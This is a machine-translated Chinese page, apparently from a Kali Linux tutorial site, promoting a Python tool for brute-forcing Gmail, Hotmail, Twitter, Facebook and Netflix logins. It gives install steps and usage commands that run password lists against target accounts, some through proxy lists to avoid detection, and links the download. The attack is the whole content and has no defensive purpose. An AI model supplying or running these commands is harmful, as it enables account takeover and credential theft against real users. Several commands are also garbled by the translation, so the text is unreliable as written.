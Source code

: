 # 暴力:暴力 Gmail、Hotmail、Twitter、脸书和网飞

> 原文：<https://kalilinuxtutorials.com/brute-force-gmail-hotmail-twitter-facebook-netflix/>

[![Brute Force : BruteForce Gmail, Hotmail, Twitter, Facebook & Netflix](img/7921db46cac7ff34184bec06168f054f.png "Brute Force : BruteForce Gmail, Hotmail, Twitter, Facebook & Netflix")](https://1.bp.blogspot.com/-4oHkpaUPFc0/XTGbBD3UMbI/AAAAAAAABcc/WlwkzNflZY4IvjbicKCm9uM_Iq8yzfOTQCLcBGAs/s1600/Brute_Force%25281%2529.png)

在这篇文章中，我们将看到如何暴力对待 Gmail、Hotmail、Twitter、脸书和网飞。首先让我们看看如何安装它；

![](img/17e1fe0272d6f0f0bbfdeab09fc80d83.png)

pip 安装代理列表
pip 安装机械化

**也可阅读-[JShielder:强化 Linux 服务器脚本/ Secure LAMP-LEMP 部署者/ CIS 基准 G](https://kalilinuxtutorials.com/jshielder-hardening-script/)**

**用途**

**暴力攻击 Gmail】**

python 3 Brute _ force . py-g Account@gmail.com-l 文件 _ 列表
python 3 Brute _ force . py-g Account@gmail.com-p 密码 _ 单

**暴力 Hotmail 攻击**

python 3 Brute _ force . py-t Account@hotmail.com-l 文件 _ 列表
python 3 Brute _ force . py-t Account@hotmail.com-p 密码 _ 单

**暴力推特攻击**

python 3 Brute _ force . py-T Account _ Twitter-l File _ list
python 3 Brute _ force . py-T Account _ Twitter-l File _ list-X proxy-list . txt

**脸书的武力进攻**

python 3 Brute _ force . py-f Account _ Facebook-l File _ list
python 3 Brute _ force . py-f Account _ Facebook-l File _ list-X proxy-list . txt

**网飞的武力进攻**

□VPN

python 3 raw _ force . py-n account _ Netflix-l file _ list
python 3 raw _ force . py-n account _ Netflix-l file _ list-x proxy-list . txt


[**Download**](https://github.com/Matrix07ksa/Brute_Force)